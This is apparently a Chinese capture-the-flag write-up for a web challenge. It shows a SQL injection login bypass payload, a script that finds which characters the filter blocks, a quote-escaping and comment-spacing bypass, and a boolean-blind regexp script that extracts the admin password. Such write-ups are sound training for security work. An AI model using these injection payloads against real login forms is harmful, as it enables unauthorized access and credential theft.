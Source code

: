 ![](<./img/Pasted image 20230120113124.png>)

![](<./img/Pasted image 20230120113103.png>)

![](<./img/Pasted image 20230120113230.png>)

```
username=admin
passwd=1' or 1=1 or '1
```

![](<./img/Pasted image 20230120150739.png>)

```python
import requests
import time

url = 'http://xxx.node4.buuoj.cn:81/index.php'
data = {'username' : '1', 'passwd': ''}

for i in range(128):
    data['passwd'] = chr(i)
    if requests.post(url, data=data).text.__contains__('hacker'):
        print('\'{}\''.format(chr(i)))
    time.sleep(0.1)
```

```
' '
'#'
'''
','
'-'
'.'
'<'
'='
'>'
```

由于单引号被过滤，尝试使用`\`对原有的单引号进行转义

由于空格也被过滤，为了维持语法的正确，使用`/**/`作为间隔

`passwd`右边的单引号通过`\0`截断

最终查询像这样

```sql
select * from users where username='\' and passwd='/**/or/**/passwd/**/regexp/**/"<reg>";
```

(好像`or`也被过滤了)

```python
import requests
import time

url = "http://18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn:81/index.php"
fmt = '/**/||/**/passwd/**/not/**/regexp/**/"{}";\000'

data = {'username': '\\', 'passwd': fmt.format('^a')}
print(requests.post(url, data=data).text)
```

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /welcome.php was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 18bd2d66-8fe7-4c4b-add6-b7d365efc8ed.node4.buuoj.cn Port 81</address>
</body></html>
```

如果查询有结果就返回404，没有返回200

```python
import requests
import time
import sys
import string

url = "http://xxx.node4.buuoj.cn:81/index.php"

pass_fmt = '/**/||/**/passwd/**/regexp/**/"^{}";\000'
data = {'username': '\\', 'passwd': ''}
false_func = lambda response : response.status_code == 200

word_list = string.ascii_uppercase + string.ascii_lowercase + string.digits + '_'

res = ''

while True:
    for i in word_list:
        data['passwd'] = pass_fmt.format(res + i)

        time.sleep(0.1)
        response = requests.post(url, data)
        if not false_func(response):
            print(i, end='')
            sys.stdout.flush()
            res += i
            break
```

```
YOU_WILL_NEVER_KNOW7788990
```

转为小写之后拿去登录就拿到了`flag`

![](<./img/Pasted image 20230120162247.png>)

#Web #SQL注入 #布尔盲注 #绕过